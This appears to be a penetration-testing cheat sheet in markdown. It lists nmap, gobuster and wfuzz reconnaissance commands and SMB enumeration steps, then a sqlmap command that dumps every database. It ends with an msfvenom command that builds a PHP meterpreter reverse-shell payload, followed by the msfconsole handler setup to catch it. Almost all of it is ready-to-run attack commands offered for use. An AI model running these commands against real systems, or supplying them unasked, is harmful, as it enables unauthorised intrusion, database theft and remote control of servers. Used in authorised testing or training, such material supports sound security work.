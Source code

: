 # Basic Enumeration at the start

#### NMAP check for live hosts
- `sudo nmap -sn 10.0.0.0/24 -oN discovery.nmap`

#### sort
- `cat discovery.nmap | grep "for" | cut -d " " -f 5 > ips.txt` 

#### NMAP scan
- `sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open`

#### NMAP Scan
- `sudo nmap -sC -sV -oA testbox 10.0.0.1`

### Web Directory Enumeration
#### gobuster
- `gobuster dir -u http://10.0.0.1 -w /usr/share/wordlists/dirb/big.txt`

#### wfuzz
######  directory    
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hc 404 -u 10.0.0.1/FUZZ`  
###### filename + extension  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ%FUZ2Z`  
###### deeper enumeration  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ/FU2Z%FUZ3Z`

### SMB Enumeration

- `enum4linux -a 10.0.0.1`
- `smbclient -U "user" -L 10.0.0.1`
- `showmount -e 10.0.0.1`
- `sudo mount -t cifs //10.0.0.1/share$ smb/ -o user="user"`

### LDAP Enumeration

- `jxplorer`

### SQLMAP 
- if there is a parameter then one could use sqlmap
- e.g http://10.0.0.1/?id=2
- use burp to get the request page and save it as req.txt
- then run
- `sqlmap -r req.txt --dbms --dump-all`

### msfvenom and msfconsole reverse shell

- `msfvenom -p php/meterpreter_reverse_tcp lhost=10.0.0.1 lport=9998 -o moon.php`

#msfconsole
- `use exploit/multi/handler`
- `set payload php/meterpreter_reverse_tcp`
- `set LHOST yourip`
- `set LPORT  9998`
- `run`



